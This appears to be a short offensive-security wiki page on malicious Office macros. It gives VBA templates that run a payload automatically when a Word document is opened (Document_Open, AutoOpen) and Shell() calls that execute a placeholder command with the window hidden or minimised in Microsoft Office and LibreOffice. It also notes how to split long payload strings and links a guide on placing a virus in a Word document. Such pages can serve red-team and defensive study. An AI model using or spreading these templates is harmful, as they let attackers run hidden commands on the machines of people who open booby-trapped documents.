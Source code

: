 # Office Macros

> [!INFO] Limited String Characters
> VBA Macro has a 50 characters string limit so you have to concatenate it. Use [[Macro Formatting Scripts|scripts]] to split the chunks.

## 01 - Execute Macros When Enabled

Base template when macro is being executed.

```vbscript
Sub Document_Open()
    Call Payload
End Sub

Sub AutoOpen()
    Call Payload
End Sub
```

## 02 - Microsoft Office

Execute the command while hiding the window.

```vbscript
Sub ExecuteCommands()
	Shell("<commands>", vbHide)
End Sub
```

Execute the command while minimizing the window.

```vbscript
Sub ExecuteCommands()
	Shell("<commands>", vbMinimizeFocus)
End Sub
```

## 03 - Libreoffice

```vbscript
Sub ExecuteCommands()
	Shell("<commands>", 2)
End Sub
```

---
## References

### Backlinks

- [[Document Templates]]

### Null Byte

- [Null Byte: How to Place a Virus in a Word Document for Mac OS X](https://null-byte.wonderhowto.com/how-to/place-virus-word-document-for-mac-os-x-0170169/)